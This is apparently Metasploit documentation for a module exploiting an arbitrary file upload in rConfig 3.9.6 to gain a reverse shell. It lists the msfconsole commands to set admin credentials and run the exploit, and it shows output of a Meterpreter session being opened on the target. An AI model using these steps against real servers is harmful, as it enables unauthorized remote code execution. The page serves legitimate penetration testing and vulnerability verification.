 ## Vulnerable Application

### Description

This module allows an attacker with a privileged rConfig account to start a reverse shell due to an
arbitrary file upload vulnerability in `/lib/crud/vendors.crud.php`. Then, the uploaded payload can be
triggered by a call to `images/vendor/<payload_file>.php`

### Installation

Vulnerable versions of rConfig can be downloaded from [here](https://www.rconfig.com/download/). Then,
help yourself with [this](https://help.rconfig.com/gettingstarted/installation) installation guide.
You can also use this [docker file](https://hub.docker.com/r/libyerman/rconfig)
(as long as it is not updated and remains a 3.9.6 version of rConfig)

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/linux/http/rconfig_authenticated_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_rconfig>` if the base path of rConfig web server is different from `/`
6. `check` to check if the targeted rConfig server is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on CentOS 7 with rConfig 3.9.6. See the following output :

```
msf6 exploit(rconfig_authenticated_rce) > run

[*] Started reverse TCP handler on X.X.X.X:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Version 3.9.6 of rConfig found !
[+] The target is vulnerable.
[+] We successfully logged in !
[*] Uploading file 'uaxsv.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to Y.Y.Y.Y
[*] Meterpreter session 13 opened (X.X.X.X:4444 -> Y.Y.Y.Y:38310) at 2021-06-17 14:41:00 +0200

meterpreter > getuid
Server username: apache (48)
```
